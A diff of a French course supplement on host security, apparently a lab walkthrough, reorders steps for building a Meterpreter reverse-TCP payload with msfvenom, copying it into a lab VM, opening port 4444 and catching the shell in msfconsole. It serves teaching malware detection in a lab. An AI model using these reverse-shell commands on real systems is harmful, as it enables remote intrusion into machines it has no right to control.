

nouveau contenu

diff --git a/supplements/supplements_host_security.html b/supplements/supplements_host_security.html
@@ -6736,20 +6736,18 @@ end</code></pre>
                     <img src="../images/detection_virus_2.PNG" alt="">
                     <p>Voici les différentes commandes exécutées dans l'image précédente :</p>
 <pre><code>cd ~/Downloads</code></pre>
-<pre><code>msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=172.28.128.1 lport=4444 -f elf &gt; /home/galagao/shell2</code></pre>
-                    <p>En résumé, cette commande génère un malware (reverse shell) qui se connecte à ton IP.</p>
-<pre><code>chmod +x shell2</code></pre>
-<pre><code>file shell2</code></pre>
-<pre><code>cp ~/shell2 /home/galago/Sync/EPHEC/host-security/vm-provisioning/hard/scanning/</code></pre>
-                    <p>En résumé, cette commande copie le fichier généré vers un autre dossier.</p>
-                    <p>Dans la VM "scanning" ou scanning-sanitized" :</p>
-<pre><code>cd /vagrant</code></pre>
-<pre><code>cp shell2 ~</code></pre>
-<pre><code>cd ~</code></pre>
-                    <p>Sur la machine hôte, il faut que le firewall autorise les connexions entrantes sur le port 4444, utilisé par le payload pour établir la connexion avec la commande suivante :</p>
+<p>Sur la machine hôte, il faut que le firewall autorise les connexions entrantes sur le port 4444, utilisé par le payload pour établir la connexion avec la commande suivante :</p>
 <pre><code>sudo ufw allow 4444</code></pre>
                     <p>Il faut également lancer la console principale de Metasploit Framework sur la machine hôte et configurer un handler afin d'écouter la connexion entrante du reverse shell avec la commande suivante :</p>
-<pre><code>msfconsole</code></pre>
+<pre><code>msfconsole -q -x "exit" # initialise Metasploit Framework</code></pre>
+<pre><code>msfvenom -a x64 --platform linux -p linux/x86/meterpreter/reverse_tcp lhost=172.28.128.1 lport=4444 -f elf &gt; /home/galagao/shell</code></pre>
+                    <p>En résumé, cette commande génère un malware (reverse shell) qui se connecte à ton IP.</p>
+<pre><code>cp ~/shell /le-chemin-vers-directory-ayant-créé-vm</code></pre>
+                    <p>En résumé, cette commande copie le fichier généré vers un autre dossier.</p>
+                    <p>Dans la VM "scanning" ou scanning-sanitized" :</p>
+<pre><code>cp /vagrant/shell . # copie payload dans VM</code></pre>
+<pre><code>chmod +x shell # rend exécutable</code></pre>
+<pre><code>file shell</code></pre>
                     <h4>Configuration de l'écoute dans msfconsole :</h4>
                     <img src="../images/detection_virus_3.PNG" alt="">
                     <p>Voici les différentes commandes exécutées dans l'image précédente :</p>
@@ -6764,7 +6762,7 @@ end</code></pre>
                     <h4>Exploitation du système :</h4>
                     <img src="../images/detection_virus_4.PNG" alt="">
                     <p>Voici les différentes commandes exécutées dans l'image précédente :</p>
-<pre><code>./shell2</code></pre>
+<pre><code>./shell</code></pre>
                     <p>En résumé, cette commande lance le malware (reverse shell).</p>
 <pre><code>run</code></pre>
                     <p>En résumé, cette commande lance l'exploit / met en attente une connexion.</p>